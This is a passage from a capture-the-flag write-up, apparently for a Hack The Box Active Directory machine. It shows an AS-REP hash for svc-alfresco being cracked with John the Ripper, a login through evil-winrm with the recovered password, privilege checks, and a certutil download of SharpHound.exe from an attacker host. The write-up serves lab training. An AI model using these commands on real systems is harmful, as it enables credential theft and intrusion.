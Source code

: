     $krb5asrep$23$svc-alfresco@HTB.LOCAL:f273a60f1819563f3e88f5d0d4f45f12$64aa84f3c73959c071355f21de049ed753278f551e6569cfb4eeaf407d07262c300fda114790d9a2a7b55f306afbff454ac7bbd5f550cff7d66f746df692c968e72605c0d010a92d1e719218f8e50af6b966f7aaf411e2a2780e51b461248f205acee7739df180d2938d6b7222ad9b48f8e71c78f64f344ef8f3a4c6e16ef8f89d386ee04f311ea7dcdb31dba2292b42ea8796bfaa5602383f746a9624b2ce6a24ea86924f965d00bf89705e9144af6abcef09d51b142dcc55b496dd12b4b68cdc8c44c3ff0e8d9f3babee6948a34ad9da8ae48642b928819408f6fab7f6ec4a7834e69b3515
    ➜  ~ nano svc_alfrescoHash
    
    ```
    
- Cracking svc-alfresco’s password:
    
    ```bash
    ➜  ~ john svc_alfrescoHash --wordlist=/usr/share/wordlists/rockyou.txt 
    Using default input encoding: UTF-8
    Loaded 1 password hash (krb5asrep, Kerberos 5 AS-REP etype 17/18/23 [MD4 HMAC-MD5 RC4 / PBKDF2 HMAC-SHA1 AES 256/256 AVX2 8x])
    Will run 4 OpenMP threads
    Press 'q' or Ctrl-C to abort, almost any other key for status
    s3rvice          ($krb5asrep$23$svc-alfresco@HTB.LOCAL)     
    1g 0:00:00:02 DONE (2024-04-28 04:51) 0.3787g/s 1547Kp/s 1547Kc/s 1547KC/s s4553592..s3r2s1
    Use the "--show" option to display all of the cracked passwords reliably
    Session completed.
    ```
    
- evil-winrm:
    
    ```bash
    ➜  ~ evil-winrm -i 10.10.10.161 -u svc-alfresco -p s3rvice
                                            
    Evil-WinRM shell v3.5
                                            
    Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                            
    Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                            
    Info: Establishing connection to remote endpoint
    *Evil-WinRM* PS C:\Users\svc-alfresco\Documents>
    ```
    
- Check current users privileges (Windows):
    
    ```bash
    whoami /priv
    whoami /all
    ```
    
- Transferring files to Windows:
    
    ```bash
    *Evil-WinRM* PS C:\Users\svc-alfresco\Documents> certutil -urlcache -f http://10.10.14.34:8000/SharpHound.exe
     SharpHound.exe
    ****  Online  ****
    CertUtil: -URLCache command completed successfully.
    ```
    